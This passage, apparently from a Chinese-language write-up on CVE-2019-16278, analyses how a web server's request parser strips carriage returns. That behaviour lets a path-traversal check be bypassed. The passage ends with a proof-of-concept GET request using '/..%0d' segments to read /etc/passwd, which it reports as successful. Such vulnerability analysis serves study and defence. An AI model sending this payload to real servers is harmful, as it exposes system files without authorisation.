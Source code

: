 ![](/assets/images/2019-10-23-cve-2019-16278/18.png)  

简单分析下代码，可知该函数主要是通过换行符(*LF，ASCII转义字符\n*)为特征来截取request中的第一行数据（*接口、协议*）信息。核心代码是56和57行，第56行先判断字符是不是回车符号，如果不是就执行57行代码，把符合规则的字符赋值给dst指针。这里重点看56行代码，它会检测`\r`符号，结合上下文可知，如果检测到了回车符，会自动把回车符号删掉，而不影响后续字符的拼接。  
所以，如果在`/../`中插入回车符号，不就可以绕过http.c中http_verify函数的检测而不影响语义吗？  

## 0x03 漏洞复现  

### 1. POC构造  

根据上述的代码分析可知，可以在`/../`字符串中插入回车符号绕过http_verify函数的检测，然后程序会在strcutl函数里面自动把回车符号删除恢复原本语义，构造poc如下：  

```
GET /..%0d/..%0d/..%0d/..%0d/..%0d/..%0d/etc/passwd HTTP/1.1
```

测试结果如下，成功读取etc/passwd文件内容  
